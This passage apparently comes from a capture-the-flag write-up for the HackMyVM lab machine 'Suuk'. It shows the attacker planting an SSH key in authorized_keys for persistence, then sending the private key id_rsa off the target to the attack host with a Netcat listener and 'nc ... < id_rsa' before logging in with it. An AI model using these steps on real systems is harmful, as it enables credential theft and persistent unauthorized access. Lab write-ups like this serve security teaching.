 ```bash
Your public key has been saved in /home/mister_b/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:i1EugVYEcZJXFXemARC2eXTKkCSq9uB9VHWVRVd8YK4 mister_b@kuus
The key\'s randomart image is:
+---[RSA 2048]----+
|    +==oB=*o=.***|
|    .*.o.B = B. +|
|    +.. = + . . .|
|   o   = .   .   |
|  +   + S   E    |
| o + . + .       |
|  . o o .        |
|     .           |
|                 |
+----[SHA256]-----+
mister_b@kuus:~/.ssh$ mv id_rsa.pub authorized_keys
mv id_rsa.pub authorized_keys
```
Now that we have created the .ssh directory and generated the keys for this user let's download the private key on our attack host using Netcat.
##### Start a listener
```bash
┌──(pentester㉿kali)-[~/Suuk/Misc File]
└─$nc -lvnp 7070 > mister_id_rsa  
listening on [any] 7070 ..
```

##### Send the key
```bash
mister_b@kuus:~/.ssh$ nc -q 0 10.0.2.9 7070 < id_rsa
nc -q 0 10.0.2.9 7070 < id_rsa
```
#### Confirm the transfer
```bash
┌──(pentester㉿kali)-[~/Suuk/Misc File]
└─$nc -lvnp 7070 > mister_id_rsa  
listening on [any] 7070 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.13] 52972
```
Next, let's connect to the target with this private key and enjoy our stable SSH shell session.<br>
*NB: Don't forget to change the permission of the key file to 600 before connecting or you shall get an error.*
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Suuk/Misc File]
└─$ssh mister_b@10.0.2.13 -i mister_id_rsa 
Linux kuus 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
<SNIP>
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
mister_b@kuus:~$ 
```
